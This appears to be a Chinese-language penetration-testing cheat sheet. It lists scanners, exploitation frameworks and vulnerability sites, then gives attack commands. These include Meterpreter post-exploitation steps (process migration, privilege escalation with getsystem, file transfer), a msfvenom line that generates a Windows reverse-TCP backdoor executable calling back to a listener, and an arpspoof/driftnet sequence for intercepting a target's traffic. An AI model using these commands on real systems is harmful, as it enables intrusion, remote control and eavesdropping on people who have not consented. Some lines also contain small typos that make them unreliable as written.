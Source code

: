 # ceshi

---

一、Nmap可用于判定网络的布局，可以在网络上使用 Nmap 来查找主机系统以及打开这些系统的端口。

二、Nessus目前全世界最多人使用的系统漏洞扫描与分析软件。Nessus是一个可提供全方位服务的安全扫描程序。与其他的扫描软件一样，Nessus只能在其依赖的签名数据库中发挥作用。Nessus会时常更新，且具有全面报告、主机扫描以及实时漏洞搜索的功能。

三、OpenVAS一套可用于扫描漏洞和全面漏洞管理的工具和服务系统。 OpenVAS 的核心功能是其所提供的安全扫描器，可使用超过 33,000 每日更新的网络漏洞测试。

四、Niktou是一款杰出的“ 通用网关接口 ”(CGI，common gateway interface) 脚本扫描器。 Nikto 不仅可用于检查 CGI 漏洞，还可以躲避的方式运行，以便躲避入侵探测系统。

---
漏洞发布网站
 
https://www.seebug.org/

https://www.exploit-db.com/

---

Firefox下

    Firebug，调试js，HTTP请求响应观察，Cookie，DOM树观察等；GreaseMonkey，自己改了个Cookie修改脚本，其他同学可以用这款：Original Cookie Injector for Greasemonkey；Noscript，进行一些js的阻断；AutoProxy，翻墙必备；

Chrome下

    F12打开开发者工具，功能==Firebug+本地存储观察等；SwichySharp，翻墙必备；Cookie修改脚本，自己写了一个Chrome扩展（已开源：Cookie利用神器：CookieHacker），其他同学可以自己到Chrome扩展搜个好用的；

前端渗透工具

    

HTTP代理工具

    Fiddler，即可，不用再寻找其他的了，watcher插件漏洞
    
    Burp Suite，HTTP代理，还有爬虫、漏洞扫描、渗透、爆破等功能

漏洞扫描工具

    AWVS，不仅漏扫方便，
    
    Python自写脚本/工具
    
    Nmap，绝对不仅仅是端口扫描,脚本

漏洞利用

    sqlmap，SQL注入利用
    
    Metasploit，主机渗透框架，；
    
    Hydra，爆破必备；

抓包工具

    Wireshark，抓包必备；tcpdump，Linux下命令行抓包，结果可以给Wireshark分析；

大数据平台

    ZoomEye，知道创宇开放的一个网络空间搜索引擎，搜搜组件就知道：ZoomEye（钟馗之眼），可以认为我在广告；SHODAN， 老外开放的一个网络空间搜索引擎，搜搜主机设备就知道：SHODAN – Computer Search Engine；Google，：）

熟练Linux众多命令+Vim

---

# Metasploit

---

search cve:2009 type:exploit app:client

info 展示相关信息

show advanced 列出所有高级配置

check 检车目标是否选定渗透攻击存在相应安全漏洞


---

# Metgetpid

注入进程　migrate 

上传文件  　upload　　

下载文件　　 download 

session -l 列出可用的交互会话

session -i number 选定会话

获取最高权限  sysinfo getsystem 

---
# msfvenom 

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

---

# Arp

apt install dsniff ssldump

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0
